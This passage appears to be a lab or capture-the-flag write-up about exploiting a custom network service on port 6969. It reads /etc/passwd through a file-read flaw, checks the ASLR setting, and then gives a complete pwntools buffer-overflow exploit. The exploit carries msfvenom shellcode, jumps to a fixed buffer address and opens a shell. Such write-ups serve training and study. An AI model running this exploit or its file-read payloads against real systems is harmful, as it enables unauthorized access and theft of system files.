 After review for a while I noticed that the service runnign on TCP port 6969 seem to be project binary.

I checked that if my thought was right.
```
root@AIRBUS# python -c'print "\x01\x01/etc/passwdijpqrs"' | nc 192.168.159.133 6969
root:x:0:0:root:/root:/bin/bash
```
Uhm... then I decided to exploited this service because it had vulnerable function **memcpy**

## Exploitation
Let check for ASLR if it was enabled. If ASLR was enabled it could protect me to exploit the binary.
```
root@AIRBUS# python -c'print "\x01\x01/proc/sys/kernel/randomize_va_spaceijpqrs"' | nc 192.168.159.133 6969
2
```
Not a good news because binary run on the target was protected by [Address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization). With another branch of the binary, if I provide 0x02 twice at payload header:
* <+265> Binary will check if first 2 bytes were 0x02 and 0x02.
* <+362> Binary prepare fix address **0x600de0** to store input string as buffer.
* <+410> Indicated the amount of bytes to be copied to buffer.

The idea is if I prepare shellcode in my payload and set first 2 bytes as 0x02 the binary will copy my shellcode to the fixed memory address at 0x600de0. Then I overflow return address with fixed 0x600de0 then the binary will execute my shellcode.
```python
from pwn import *
from struct import *

# msfvenom -p linux/x64/exec -v shell -f py CMD="/bin/bash"
shell =  ""
shell += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
shell += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
shell += "\x52\xe8\x0a\x00\x00\x00\x2f\x62\x69\x6e\x2f\x62\x61"
shell += "\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"

buf =  "\x02\x02\x00"
buf += "\x90" * 20
buf += shell
buf += "\x90"*(522-len(shell))
buf += pack("<Q", 0x600de0)

host = "192.168.159.133"
port = 6969

try:
    p = remote(host, port)
    p.sendline(buf)
    p.interactive()
except EOFError as e:
    log.error(e)
finally:
    with context.quiet:
        p.close()
```
